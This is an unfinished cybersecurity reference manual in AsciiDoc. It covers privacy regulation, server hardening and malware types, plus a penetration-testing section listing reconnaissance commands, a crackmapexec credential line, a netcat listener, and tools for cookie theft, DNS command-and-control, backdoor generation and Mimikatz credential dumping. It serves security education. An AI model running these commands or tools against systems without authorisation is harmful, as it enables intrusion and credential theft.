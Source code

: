 = CyberSecurity: A Comprehensive Reference
Doc Writer <smsharif@secunoid.com>
v1.73, 29th March, 2020
:numbered:
:sectnum:
:sectnumlevels: 5
:chapter-label:
:toc: right
:toclevels: 5
:docinfo:
:docinfo1:
:docinfo2:
:description: This document covers all aspects of cybersecurity
:keywords: cybersecurity, it security, compliance, risk management
:imagesdir: images
:stylesheet:
:homepage: https://www.securityprivacyrisk.com
'''


<<<
== Overview
Everything in this world is centered around information, knowledge, which translates into a generic term _data_.  This data can be about individuals, places, or things.  Regardless of who or what it is about it is important to protect it.

There exists approximately 4,294,967,296 (four billion two hundred ninety-four million nine hundred sixty-seven thousand to hundred ninety-six) IPv4 Addresses.  This pool is 32-bits in size.  Scanning these addresses is an embarrassingly parallel workload and ca be easily distributed over any number of systems.  The term embarrassingly parallel simply means that little or no effort is needed to seperate this problem into a number of parallel tasks.  Password cracking and 3d video rendering are also examples o this type of problem.

=== Non-living Entities
Data about non living entities when modified leads to mis-information and currently in the digital age our ability to provide the authenticity of that data is very difficult.  If the source is trustworthy, then we deem it authentic, currently there are no mechanisms to ensure that the data has not been modified in between from when the trustworthy source released and to the time it got to you.

=== Living Entities
Data about living entities, especially us humans is very valuable.  With the devices we carry, and use in our daily lives, we are constantly producing data, every hour, every second of our lives. 

<<<
== Privacy
Centralization has very damaging impacts to a users privacy.  Once the user has provided their information to an entity, they are at entities' mercy for data protection.

Certain states want to keep 

Data that is being processed by the solution should care fully considered for:

. Data protection: Based on data classification ensure data is protected in storage and in transit.
. Data retention: Based on regulatory, and industry requirements,  data should be retained for 
. Data access & update: Allow end users ability to access their data and modify it as required.

Governments across the world are responding to the global cyber security crisis by creating new regulations that govern the way companies handle and store valuable consumer data. This includes important information such as personal identifications, banking and credit card numbers, and purchase history.

The European Union, in particular, has been a leader in this field. One of its pioneering efforts is the General Data Protection Regulations (GDPR) what was passed in 2016 and went into effect in Spring 2018. It impacts all companies that do business with European customers, regardless of where the company is located.

The GDPR requires that companies receive consent from consumers before processing data, collect and store data anonymously, and notify customers when their information has potentially been breached. It also requires large businesses to appoint a data privacy protection officer to oversee implementation of the regulations.

Furthermore, while the U.S. federal government has yet to create a set of strong data privacy protections, several states have drawn up their legislation, including Hawaii, Massachusetts, Maryland, Mississippi, New Mexico, and Washington.

However, the most important of these regulations come from California, the largest state in the country by population with nearly 40 million residents. The California Consumer Privacy Act (CCPA) goes into effect on January 1, 2020, and governs the way companies must store and secure data.

CCPA allows consumers to demand crucial information about their personal data held by corporations.

When requested, businesses must inform consumers about the type of personal data they possess, provide them with specific personal information collected in the previous year, and allow customers to request that their information not be shared with third parties. Companies will also have to delete customer data when requested.



<<<
== Data Protection

=== Methodology
. Define what to classify
. Define where to classify
. Define who applies classification
. Define conditions
. Assign labels to users and groups
. Define Access rights
. Create classification policies
. Test Classification policies
. Deploy classification policies
. Monitor and accelerate remediation

=== Know your data
. Where is my sensitive data 
located? 
. What are the risky activities happening in my organization – files shared externally, across 1st and 3rd party apps?
. I need to comply with a new regulation? Where is my PII data located & where is it being generated? 
. How do I control data sprawl and build a strategy for ROT before I bring data
. How do I see activity around classification and labeling across retention and sensitivity labels once they have been used across governance and retention outcomes?
. How do I monitor  ongoing risk around label activity?


=== Password Strength
Brute force password cracking - the importance of using a long password with a mix of uppercase, lowercase and special characters.

Assuming an attacker has a reasonably fast connection and PC, the table is an estimate of the amount of time it would take to generate every possible combination of passwords for a given number of characters. After generating the list it's just a matter of time before the computer runs through all the possibilities – or gets shut down trying.

Pay particular attention to the difference between using only lowercase characters and using all possible characters (uppercase, lowercase, and special characters – like @#$%^&*). Adding just one capital letter and one asterisk would change the processing time for an 8 character password from 2.4 days to 2.1 centuries.

via Dan Williams (https://www.linkedin.com/in/ACoAAACDV6ABaDOtrduFQ5p-c5qgSka1HHTseAY/?lipi=urn%3Ali%3Apage%3Ad_flagship3_feed%3BxdsE5HnqTDulyw2QOn9mCw%3D%3D)

image::PasswordLengthComplexityCrackingTime.jpg[]

<<<
== Information Security 
Information Security as you can infer, all about information protection.  Before the advent of internet information was stored in corporate data centers and they had mechanisms in place to protect the information.  The two main areas that are focused are logical and technical security.

=== Logical Security
Logical controls are about physical aspects of the information protection.  The computer system is housed in a building in a particular area.  Depending on the sensitivity of the information various mechanisms are put in place like:

* Fenced building perimeter
* Gates at the entry and exit points
* Guards manning those gates to ensure that only authorized individuals are allowed through the gates

Now working through the layers just like peeling an onion. You have gone through the first layer the perimeter. Now once in the perimeter it has to be ensured:

* Ensuring protections are in place to prevent vehicles damaging the building via direct impacts
* Split the building into zones with different levels of access levels for the personnel and this can be gated & guarded area
* Ensure computer room is in the middle of the building without any window access
* The computer room can be split into zones depending on the sensitivity of the information
* Access to these zones can be gated and guarded
* Assets within these zone would be placed in cabinets that are again secured via lock and key

=== Technical Security
Now that we have addressed the physical security aspects Once inside the computer room, this is where information security starts to take shape.  All the computers in the computer room will need to be accessed by the users.  People with different levels of access would be physically separated into specific areas.  For instance Super users were in a different physical space than regular users.

With the advent of networking,TCP/IP, and better access control mechanisms in operating systems that requirement to physically segregate users started to diminish.

That requirement to physically segregate users with different levels of access via gates and guards moved to the network and operating system level and this is where information security started to take a foot hold.

Applications that operated on top of the operating system implemented fine grained access mechanisms for the users.

The gates and guards started getting replaced by electronic locks with pin pads and cameras.  Whereby to prove that you were authorized to access an area, you would have the PIN to the door which you would use to get access.  

The PIN pads later got replaced by card access, where you had to scan your card to enter an area.

As you can see a lot of Physical Security controls are also moving into information security space whereby the cameras that are recording and the recording management software, the card access system and access management are all managed by applications that are operating on top of an operating system running on a computer system.

Enter Information Security, which at the most fundamental level is the basis for:

* Information Technology Security
* System Security
**  Network Security
**  Application Security
*** Database Security
* Cyber Security

This book will cover the various aspects of implementing an Information Security Program at an organization of any size. You don't have to be a huge organization to have an information security program.  If you are in business you are collecting, storing, and transmitting all kinds of information and it important that you know how to ensure that information is protected at all times.  If it is not then maybe your business might be at risk.

<<<
== Security Organization
For Security to be taken seriously a security organization is mandatory, while the non operational team would report to the CISO, the operational structure can be based on two models:

. Centralized
. Distributed

In centralized operational model, all aspects of security operations are within the security organization, such as:

. User provisioning/de-provisioning
. Security Information & Event Management (SIEM)
. Security Operations Center
. Incident Response
. Firewall & Network Operations

In a decentralized operations model, the above aspects are managed by different business units with the security organization providing oversight in form of GRC.

=== Security Operations
A robust mechanism must be instituted to ensure all systems are baselined and any deviation from the baseline is reported to the SOC  for action.
All critical components must be monitored at all times, and SIEM   leveraged to discover anomalies and ensure they are addressed in a timely fashion.

=== Security Architecture

=== Security Development

=== Security Strategy

<<<

== Security Policy
Before any solution is implemented, a security policy must be created to ensure all the industry, regulatory,  and other compliance requirements are documented.  This document will provide the security requirements to ensure the deployment is secure. All the requirements should be very high level without delving into implementation details.

<<<
== Security Manual
This document goes into details on the how the security policy requirements must be implemented.  It can be one document, or multiple depending on the size of implementation.

<<<
== Security Standards
Standards are mandatory requirements that must be adhered to. Some of the standards to be considered are:

=== Windows Web Server Hardening

*Services*

* Unnecessary Windows services are disabled.
* Services are running with least-privileged accounts.
* FTP, SMTP, and NNTP services are disabled if they are not required.
* Telnet service is disabled.

*Protocols*

* WebDAV is disabled if not used by the application OR it is secured if it is required.
* TCP/IP stack is hardened
* NetBIOS and SMB are disabled (closes ports 137, 138, 139, and 445).

*Accounts*

* Unused accounts are removed from the server.
* Guest account is disabled.
* IUSR_MACHINE account is disabled if it is not used by the application.
* If your applications require anonymous access, a custom least-privileged anonymous account is created.
* The anonymous account does not have write access to Web content directories and cannot execute command-line tools.
Strong account and password policies are enforced for the server.
* Remote logons are restricted. (The “Access this computer from the network” user-right is removed from the Everyone group.)
* Accounts are not shared among administrators.
* Null sessions (anonymous logons) are disabled.
* Approval is required for account delegation.
* Users and administrators do not share accounts.
* No more than two accounts exist in the Administrators group.
* Administrators are required to log on locally OR the remote administration solution is secure.

*Files and Directories*

* Files and directories are contained on NTFS volumes
Web site content is located on a non-system NTFS volume.
* Log files are located on a non-system NTFS volume and not on the same volume where the Web site content resides.
* The Everyone group is restricted (no access to \WINNT\system32 or Web directories).
* Web site root directory has denied write ACE for anonymous Internet accounts.
* Content directories have deny write ACE for anonymous Internet accounts.
* Remote  administration application is removed
* Resource kit tools, utilities, and SDKs are removed.
* Sample applications are removed

*Shares*

* All unnecessary shares are removed (including default administration shares).
* Access to required shares is restricted (the Everyone group does not have access).
* Administrative shares (C$ and Admin$) are removed if they are not required (Microsoft Management Server (SMS) and Microsoft Operations Manager (MOM) require these shares).

*Ports*

* Internet-facing interfaces are restricted to port 80 (and 443 if SSL is used)
* Intranet traffic is encrypted (for example, with SSL) or restricted if you do not have a secure data center infrastructure.

*Registry*

* Remote registry access is restricted.
* SAM is secured (HKLM\System\CurrentControlSet\Control\LSA\NoLMHash).

*Auditing and Logging*

* Failed logon attempts are audited.
* IIS log files are relocated and secured.
* Log files are configured with an appropriate size depending on the application security requirement.
* Log files are regularly archived and analyzed.
* Access to the Metabase.bin file is audited.
* IIS is configured for W3C Extended log file format auditing.

*Server Certificates*

* Ensure certificate date ranges are valid.
* Only use certificates for their intended purpose (For example, the server certificate is not used for e-mail).
* Ensure the certificate’s public key is valid, all the way to a trusted root authority.
* Confirm that the certificate has not been revoked.

<<<
== Security Guidelines

<<<
== Cryptography

Cryptographic Blinding

<<<
== Digital Identity

Digital Identity is a bridge that connects the physical and the digital world.  You can call them Personna's in a digital world.

Cost of financial intermediation is been going up due to regulation.

According to Europol we are spending about $20b to intercept 0.15% of the fraudulent flows of money.

<<<
== Training & Education

=== Phishing

==== GoPhish
An opensource toolkit to generate phishing campaigns for organizations to test their employee phishing knowledge
Link: https://github.com/gophish/gophish/releases/


<<<
== Application Security
The scope of application security would be the 


=== Code Analysis

==== Microsoft Application Inspector
Microsoft Application Inspector is a software source code analysis tool that helps identify and surface well-known features and other interesting characteristics of source code to aid in determining what the software is or what it does. It has received attention on ZDNet, SecurityWeek, CSOOnline, Linux.com/news, HelpNetSecurity, Twitter and more and was first featured on Microsoft.com.

Application Inspector is different from traditional static analysis tools in that it doesn't attempt to identify "good" or "bad" patterns; it simply reports what it finds against a set of over 400 rule patterns for feature detection including features that impact security such as the use of cryptography and more. This can be extremely helpful in reducing the time needed to determine what Open Source or other components do by examining the source directly rather than trusting to limited documentation or recommendations.

The tool supports scanning various programming languages including C, C++, C#, Java, JavaScript, HTML, Python, Objective-C, Go, Ruby, PowerShell and more and can scan projects with mixed langauge files. It also includes HTML, JSON and text output formats
Link: https://github.com/microsoft/ApplicationInspector

==== PEpper
An open source tool to perform malware static analysis on Portable Executable
Link: https://github.com/Th3Hurrican3/PEpper


=== Key Management

<<<
== System Security
All the servers that the distributed ledger platform runs on must be:

. Hardened
. Monitored for availability
. Intrusion Detection/Intrusion Protection mechanisms deployed to protect from attacks coupled with SIEM for proactive defense.
. Based on the security be in a DMZ 

<<<
== Vulnerability Management Program
Red team-blue team exercises take their name from their military antecedents. The idea is simple: One group of security pros — a red team — attacks something, and an opposing group — the blue team — defends it. Originally, the exercises were used by the military to test force-readiness.

=== Deep vs Dark Web
Dark web is every resource where hackers & criminal underground engage with each other.  Tor is a mechanism that is used as a transport for the dark web.

image::DeepWebDarkWeb.jpeg[]

Source: https://heimdalsecurity.com/blog/deep-web-vs-dark-web-what-is-each/ 


=== Pastebin

=== Taxonomy
Taxonomy is important as it ensures industry standard terms are used when talking about vulnerabilities, threat actors, and reporting.

==== Attacks

image::TypesOfAttacks.jpg[]

==== Malware
A malware is any piece of software that was written with the intent of damaging devices, stealing data, and generally causing a mess. Viruses, Trojans, spyware, and ransomware are among the different kinds of malware.

Malware is often created by teams of hackers: usually, they’re just looking to make money, either by spreading the malware themselves or selling it to the highest bidder on the Dark Web. However, there can be other reasons for creating malware too — it can be used as a tool for protest, a way to test security, or even as weapons of war between governments.

image::TypesOfMalware.jpg[]

* *Adware* Though not always malicious in nature, aggressive advertising software can undermine your security just to serve you ads — which can give other malware an easy way in. Plus, let’s face it: pop-ups are really annoying.

* *Bots* Bots is a soft for roBot. Bots are usually controlled remotely and work as a network.

* *Keylogger* It is one of the most dangerous threats to a PC user's privacy. This type of malware installs itself as a result of clicking while browsing the Internet or downloading software. Keyloggers keep track of all of your keystrokes when you are using your PC and then transfers the information to a remote server. It is capable of recording all of your online conversations, emails, and password logins, as well as creating screenshots of all of your PC activity.

Keyloggers are not always in the form of malware or software; it can also be installed on your computer in the form of hardware through being placed between the plug on your keyboard and the entry port. Some keyloggers are legitimate applications such as those that record an employee's PC activity during work hours. Other keyloggers are in the form of malicious software that is designed to perform criminal activity.

* *Ransomware* This kind of malware typically locks down your computer and your files, and threatens to erase everything unless you pay a ransom.

* *Remote Access*

* *Rootkit*

* *Spyware* No surprise here — spyware is malware designed to spy on you. It hides in the background and takes notes on what you do online, including your passwords, credit card numbers, surfing habits, and more.

* *Trojans* This kind of malware disguises itself as legitimate software, or is hidden in legitimate software that has been tampered with. It tends to act discreetly and create backdoors in your security to let other malware in.

* *Virus* Like their biological namesakes, viruses attach themselves to clean files and infect other clean files. They can spread uncontrollably, damaging a system’s core functionality and deleting or corrupting files. They usually appear as an executable file (.exe)

* *Worm* Worms infect entire networks of devices, either local or across the internet, by using network interfaces. It uses each consecutively infected machine to infect others.

=== Vulnerability Assessment
Vulnerability Assessment is designed to find vulnerabilities and assess to ensure they are not false positives. The next step is to remediate the vulnerability by patching the system, reconfiguring it, or implementing other controls to reduce the risk. 

=== Penetration Testing
Penetration testing, or pen testing for short, is an authorized attack against your computer system to discover and exploit vulnerabilities.  This activity is also known as ethical hacking.  

Penetration testing is a technical control that is implemented to ensure the systems that are currently in production or are going to be production do not have any vulnerabilities that would allow threat vectors to exploit.

The Penetration Testing Execution Standard (PTES) provides the necessary guidelines on how to conduct penetration testing.  More information can be found here: http://www.pentest-standard.org/index.php/Main_Page 

Penetration Testing goes further than vulnerability assessment.  After a vulnerability is identified, the tester attempts to exploit a vulnerability. This can be done numerous ways and, once a vulnerability is exploited, a good tester will not stop. They will continue to find and exploit other vulnerabilities, chaining attacks together, to reach their goal. Each organization is different, so this goal may change, but usually includes access to Personally Identifiable Information (PII), Protected Health Information (PHI), and trade secrets. Sometimes this requires Domain Administrator access; often it does not or Domain Administrator is not enough.

Penetration testing involves following steps:
. Reconnaissance via open source intelligence (OSINT) gathering techniques.  IT does not involve probing any or your devices, but gathering as much information publicly available about your environment using internet sources. 
. Scanning your network to identify active devices
. Fingerprint active devices to identify operating system and applications installed
. Find vulnerabilities for the services running on your systems
. Exploiting those vulnerabilities
. Once the vulnerability has been exploited, further probing the system to seek valuable information such as PII (Personally Identifiable Information) etc.
. Try to further explore other systems on the network and exploit them if possible.
. Produce a report that identifies vulnerabilities, which ones were exploited, what was the outcome of exploitation and suggest high level remediation steps.

There are three approaches to Penetration Tests:
. Black Box: No knowledge of th infrastructure.
. White Box: Full knowledge of the infrastructure.
. Grey Box: Some knowledge of the infrastructure.

Penetration Tests can include following scopes:
. External
. Internal
. Web application
. Wireless
. Cloud
. Social

==== Penetration Testing Methodology

===== Reconnaissance
. Open Source Intelligence Gathering
.. Look for sub-domains:

	sublist3r -d <domainname> -t3 -o <filename.txt>

.. Look for sub-domains, users, etc:

	theharvester -d <domainname> -b all -f <outputfilename>

. Discovery Scan

	nmap -sC -sV -oA foldername/filename IPAddress
	nmap -sC -sV -oA foldername/filename -iL <inputfilename>

. Recon scan all ports
	
	nmap -p- -v -oA foldername/filename-allports IPAddress

. If webservers are found perform web server enumeration:

	dirb -d <domainname> 
	gobuster 

. Take notes of all the findings and also include screen captures.
. 

==== Penetration Testing Tools
Following are some of the Pentesting tools organized by a particular stage in my pentesting methodology.

===== Documentation
==== CherryTree
Chery Tree is a note taking app

===== Open Source Intelligence (OSINT)

====== Metabigor
Metabigor is Intelligence tool, its goal is to do OSINT tasks and more but without any API key.

Link: https://www.kitploit.com/2020/02/metabigor-intelligence-tool-but-without.html

====== Maltego

====== Maryam
OWASP Maryam is an Open-source intelligence(OSINT) and Web-based Footprinting modular framework BASED on The Recon-ng and written in Python.
Link: https://www.owasp.org/index.php/OWASP_Maryam_Project 

====== Recon_Spider
https://github.com/Aravindha1234u/Recon_Spider[Recon_Spider] scrapes social media account details from Instagram, Facebook and Twitter. It can find details about Phone number, Email data Breach.
Domain module has various scans for domain check for vulnerability and spider crawlers
Metadata Analyser
Reverse Image Search
IP Heatmap generator
Mac Address finder of manufacturer
IP2Proxy checks whether provided ip uses any kind of Proxy/VPN if any then check for DNSLeaks
Torrent Download History
Tool is currently available only in Command Line Interface (CLI)

Its public to use with your own api keys

====== Shodan
. Shodan is a search engine for devices connected to internet

===== Footprinting

===== Bloodhound
BloodHound is a single page Javascript web application, built on top of Linkurious, compiled with Electron, with a Neo4j database fed by a PowerShell/C# ingestor.

BloodHound uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment. Attacks can use BloodHound to easily identify highly complex attack paths that would otherwise be impossible to quickly identify. Defenders can use BloodHound to identify and eliminate those same attack paths. Both blue and red teams can use BloodHound to easily gain a deeper understanding of privilege relationships in an Active Directory environment.

BloodHound is developed by @_wald0, @CptJesus, and @harmj0y.

Wiki: https://github.com/BloodHoundAD/Bloodhound/wiki

====== Masscan
https://github.com/robertdavidgraham/masscan[MASSCAN] is an Internet-scale port scanner. It can scan the entire Internet in under 6 minutes, transmitting 10 million packets per second, from a single machine.

It's input/output is similar to nmap, the most famous port scanner. When in doubt, try one of those features.

Internally, it uses asynchronous transmissions, similar to port scanners like scanrand, unicornscan, and ZMap. It's more flexible, allowing arbitrary port and address ranges.

NOTE: masscan uses a its own custom TCP/IP stack. Anything other than simple port scans may cause conflict with the local TCP/IP stack. This means you need to either the --src-ip option to run from a different IP address, or use --src-port to configure which source ports masscan uses, then also configure the internal firewall (like pf or iptables) to firewall those ports from the rest of the operating system.

====== NESSUS

http://www.hackandtinker.net/2013/10/16/how-to-install-setup-and-use-nessus-on-kali/[Install Instructions]

====== NMAP

====== DIRB

DIRB is a Web Content Scanner. It looks for existing (and/or hidden) Web Objects. It basically works by launching a dictionary based attack against a web server and analyzing the response.

DIRB comes with a set of pre-configured attack wordlists for easy usage but you can use your custom wordlists. Also DIRB sometimes can be used as a classic CGI scanner, but remember is a content scanner not a vulnerability scanner.

DIRB main purpose is to help in professional web application auditing. Specially in security related testing. It covers some holes not covered by classic web vulnerability scanners. DIRB looks for specific web objects that other generic CGI scanners can’t look for. It doesn’t search vulnerabilities nor does it look for web contents that can be vulnerable.

Source: http://dirb.sourceforge.net/about.html
DIRB Homepage | Kali DIRB Repo

Author: The Dark Raver
License: GPLv2

https://tools.kali.org/web-applications/dirb 

====== Dirbuster

===== Reconnaissance
Combining the information gathered from OSINT and Footprinting activities.  This leads to finding vulnerabilities, exploiting them, lateral movement, persistence.

===== Exploitation

====== Arpspoof

====== Burp Suite
Burp Suite is a web application testing tool

Use vulnerable web application from the OWASP site: https://www.owasp.org/index.php/OWASP_Vulnerable_Web_Applications_Directory_Project/Pages/Offline  

====== Cookie Crimes

If you steal someone’s Chrome cookies, you can log in to their accounts on every website they’re logged in to.

Normally you need the user’s password to do it, but I found a way to do it without the password. You just need to be able to execute code on their computer. It works by using Chrome’s Remote Debugging Protocol.

Link: https://github.com/defaultnamehere/cookie_crimes

===== Post-Exploitation

====== Crackmapexec
CrackMapExec (a.k.a CME) is a post-exploitation tool that helps automate assessing the security of large Active Directory networks. Built with stealth in mind, CME follows the concept of "Living off the Land": abusing built-in Active Directory features/protocols to achieve it's functionality and allowing it to evade most endpoint protection/IDS/IPS solutions.

Link: https://github.com/byt3bl33d3r/CrackMapExec

Usage:
	crackmapexec smb <IP Of Domain Controller> -u <username> -p '<password>'

====== PoshC2
https://www.hackingarticles.in/command-control-poshc2/[PoshC2] is an open-source remote administration and post-exploitation framework that is publicly available on GitHub. The server-side components of the tool are primarily written in Python, while the implants are written in PowerShell. Although PoshC2 primarily focuses on Windows implantation, it does contain a basic Python dropper for Linux/macOS.


===== Lateral Movement

===== Persistence

===== Chisel





===== DNSCAT
DNScat is such praised tool because it can create a command and control tunnel over the DNS protocol which lets an attacker work in stealth mode. You can access any data along with uploading and downloading files and to get a shell. For this tool to work over 53 port, you don’t need to have authoritative access to DNS server, you can just simply establish your connection over port 53 and it will be faster and it will still be sensed as usual traffic. But it makes its presence well known in the packet log.

DNScat is made of two components i.e. a server and a client. To know the working of dnscat, it is important to understand both of these components.

The client is intended to be kept running on a target machine. It’s written in C and has the least amount of the prerequisites. When you run the client, you regularly indicate a domain name. All packets will be sent to the local DNS server, which is then directed to the legitimate DNS server for that domain (which you, apparently, have control of).

The server is intended to be kept running on a definitive DNS server. It’s developed in ruby and relies upon a few distinct gems. When you run it, much like the client, you indicate from which domain(s) it listens to over 53. When it gets traffic for one of those domains, it endeavours to set up a legitimate association. It gets other traffic it will automatically disregard it but, however, it can also advance it upstream.
Link: https://www.hackingarticles.in/dnscat2-command-and-control-over-the-dns/?

===== DNSSPOOF

===== Empire
Empire 3.0 is a post-exploitation framework that includes a pure-PowerShell 2.0 Windows agent, and compatibility with Python 2.x/3.x Linux/OS X agents. It is the merger of the previous PowerShell Empire and Python EmPyre projects. The framework offers cryptologically-secure communications and a flexible architecture. On the PowerShell side, Empire implements the ability to run PowerShell agents without needing powershell.exe, rapidly deployable post-exploitation modules ranging from key loggers to Mimikatz, and adaptable communications to evade network detection, all wrapped up in a usability-focused framework. PowerShell Empire premiered at BSidesLV in 2015 and Python EmPyre premeiered at HackMiami 2016. BC-Security presented updates to further evade Microsoft Antimalware Scan Interface (AMSI) and JA3/S signatures at DEF CON 27.

Empire relies heavily on the work from several other projects for its underlying functionality. We have tried to call out a few of those people we've interacted with heavily here and have included author/reference link information in the source of each Empire module as appropriate. If we have failed to properly cite existing or prior work, please let us know at Empire@BC-Security.org.

Empire is developed by @harmj0y, @sixdub, @enigma0x3, @rvrsh3ll, @killswitch_gui, @xorrior, and @bcsecurity1. While the main fork for Empire is no longer maintained, this fork is maintained by BC-Security and will continue to receive periodic updates.

https://github.com/BC-SECURITY/Empire/ 

===== Ettercap

===== Exiftool
Shows exif data about a file.   To ensure you get the correct date time meta data, always use wget.

===== Eyewitness

===== Evilarc
evilarc.py is an archiving tool that allows for folder manipulation.

===== FatRat
TheFatRat by Edo Maland, is a massive exploiting tool which compiles a malware with famous payloads, generate backdoor that allows easy post exploitation attacks such as browser attacks etc.. and then the compiled maware can be executed on Linux , Windows , Mac and Android. TheFatRat Provides An Easy way to create Backdoors and Payload which can bypass most anti-virus.

Link: https://www.blackhatethicalhacking.com/tools/thefatrat/


===== Ghidra
Ghidra is a software reverse engineering (SRE) framework created and maintained by the National Security Agency Research Directorate. This framework includes a suite of full-featured, high-end software analysis tools that enable users to analyze compiled code on a variety of platforms including Windows, macOS, and Linux. Capabilities include disassembly, assembly, decompilation, graphing, and scripting, along with hundreds of other features. Ghidra supports a wide variety of processor instruction sets and executable formats and can be run in both user-interactive and automated modes. Users may also develop their own Ghidra plug-in components and/or scripts using Java or Python.
Link: https://ghidra-sre.org/

===== Gitleaks

Link: https://github.com/zricethezav/gitleaks

===== Gobuster

Gobuster is a tool used to brute-force:

* URIs (directories and files) in web sites.
* DNS subdomains (with wildcard support).

Install

	sudo apt-get install gobuster

Usage

Scan a website (-u http://192.168.0.155/) for directories using a wordlist (-w /usr/share/wordlists/dirb/common.txt) and print the full URLs of discovered paths (-e):

	*Using dirb word lists* gobuster dir -u http://192.168.0.155/ -w /usr/share/wordlists/dirb/common.txt -o filename.txt
	*Using dirbuster word lists* gobuster dir -u http://192.168.0.155/ -w /usr/share/wordlists/dirbuster/directgory-list-2.3-medium.txt -o filename.txt
	*Using a cookie* gobuster dir -u http://192.168.0.155/ -w /usr/share/wordlists/dirbuster/directgory-list-2.3-medium.txt -o filename.txt -c 'cookievariable=valie'


[horizontal]
Source:: https://github.com/OJ/gobuster
Author:: OJ Reeves
License:: Apache-2.0
Syntax:: gobuster dir -u http://<site-name or IP address>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o dirbust-root.log

===== Hashcat

===== HTTPROBE
[horizontal]
Github:: https://github.com/tomnomnom/httprobe
Perform a scan on specific ports:: cat domains.txt | httprobe -s -p https:8443


===== Hydra

===== Impacket-secretsdump

===== JQ
jq is like sed for JSON data - you can use it to slice and filter and map and transform structured data with the same ease that sed, awk, grep and friends let you play with text.

jq is written in portable C, and it has zero runtime dependencies. You can download a single binary, scp it to a far away machine of the same type, and expect it to work.

jq can mangle the data format that you have into the one that you want with very little effort, and the program to do so is often shorter and simpler than you’d expect.

More information here: https://stedolan.github.io/jq/

===== Kali Linux

[horizontal]
Install ntpdate package:: sudo apt-get install ntpdate
Sync date & time with ntp source:: sudo ntpdate in.pool.ntp.org
Install all the tools on Kali:: sudo apt-get install kali-linux-full
Kali Tools Listing:: https://en.kali.tools/all/
Update Kali:: sudo apt-get update; sudo apt-get dist-upgrade;sudo apt-get clean

===== LinEnum
Linux enumeration & privilege escalation checks

Link: https://github.com/rebootuser/LinEnum



===== Mentalist
Mentalist is a graphical tool for custom wordlist generation. It utilizes common human paradigms for constructing passwords and can output the full wordlist as well as rules compatible with Hashcat and John the Ripper.
Link: https://github.com/sc0tfree/mentalist/blob/master/README.md

===== Metasploit

[horizontal]
On Kali metasploit is in this directory:: /usr/share/metssploit-framework
To Update metasploit:: apt update; apt install metasploit-framework
Metasploit Online Database:: https://www.rapid7.com/db/modules

===== Mimikatz
Mimikatz is a leading post-exploitation tool that dumps passwords from memory, as well as hashes, PINs and Kerberos tickets. Other useful attacks it enables are pass-the-hash, pass-the-ticket or building Golden Kerberos tickets. This makes post-exploitation lateral movement within a network easy for attackers.

Link: https://github.com/gentilkiwi/mimikatz

===== Netcat

nc -lvnp 9001

===== Nikto
Nikto is an Open Source (GPL) web server scanner which performs comprehensive tests against web servers for multiple items, including over 6700 potentially dangerous files/programs, checks for outdated versions of over 1250 servers, and version specific problems on over 270 servers. It also checks for server configuration items such as the presence of multiple index files, HTTP server options, and will attempt to identify installed web servers and software. Scan items and plugins are frequently updated and can be automatically updated.

